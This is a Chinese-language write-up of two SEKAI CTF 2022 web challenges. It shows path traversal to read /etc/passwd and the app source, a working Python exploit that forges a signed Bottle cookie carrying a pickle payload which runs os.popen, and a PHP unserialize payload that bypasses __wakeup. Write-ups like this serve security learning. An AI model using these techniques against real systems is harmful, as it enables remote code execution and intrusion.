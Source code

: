 # 2022 SEKAI CTF WP

## **Bottle Poem**

先是目录遍历，发现能读到 `etc/passwd`

但是读不到 flag，所以我们尝试去看它的进程 ———— `proc/1/cmdline`

发现有个 `python -u app/app.py`，这里说明源码是在 `app/app.py` 处的



后续题目把这里修掉了，可能是觉得是个非预期



![cmdline](images/cmdline.png)



读源码



![cmdline](images/bottle_source.png)



源码如下

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)

```



这里 secret 是需要读的，位置处于 `app/config/secret.py`

这里想的是，需要构造一个越权，使用 admin，所以本地自己起了个服务，然后以 admin 登录，但是没什么卵用。



- 后续观察发现，name 这个字段是可控的，题目提示是命令执行，所以应该是要构造一个 payload，思来想去，两种方式，一是构造 pickle 反序列化，二是 ssti 的攻击

当时因为不会 pickle 反序列化，所以满脑子都是 ssti，真白给阿，看赛后师傅们的 WP 才知道确实是 pickle 反序列化



EXP 如下

```python
import base64,hashlib,pickle,hmac
import os
def tob(s, enc='utf8'):
    if isinstance(s, str):
        return s.encode(enc)
    return b'' if s is None else bytes(s)


def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, 0))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg

class test():
    def __reduce__(self):
        return (eval,('__import__("os").popen("/flag")',))


obj = test()
a = cookie_encode(obj,'Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu')
print(a)
```



这里为啥可以构造一个 pickle 反序列化呢？本质是这样的：

在调用 `get_cookie` 的时候，我们可以跟进去看一下，说实话，这里非常非常非常非常后悔，因为当时其实是想点进去看一下的，但是自己偷懒，或者说是一念之差，没点进去，不然这题必出。



![cmdline](images/getCookie.png)



里面有个 `cookie_decode` 的方法，跟进

![cmdline](images/cookieDecode.png)



看到有个 `pickle.loads()` 方法



![cmdline](images/loads.png)



所以构造这个 exp



## **Sekai Game Start**

这个题目或许算是有点偏吧

源代码如下



```php
<?php
include('./flag.php');
class Sekai_Game{
    public $start = True;
    public function __destruct(){
        if($this->start === True){
            echo "Sekai Game Start Here is your flag ".getenv('FLAG');
        }
    }
    public function __wakeup(){
        $this->start=False;
    }
}
if(isset($_GET['sekai_game.run'])){
    unserialize($_GET['sekai_game.run']);
}else{
    highlight_file(__FILE__);
}

?>
```



我们要进到 `__destruct()` 方法里面，所以初步的 EXP 应该构造如下

`C:10:"Sekai_Game":0:{}`，这样可以 bypass `__wakeup()` 魔术方法



然后因为这里 PHP 版本是 7.4.5，小于 8 的版本，会把带 `.` 的字符串全部都转化为 `_`，而带 `_` 的全部都会转化为 `.`，笑死了



最后的 payload 为 



```payload
sekai[game.run=C:10:"Sekai_Game":0:{}
```

![cmdline](images/PHPFlag.png)




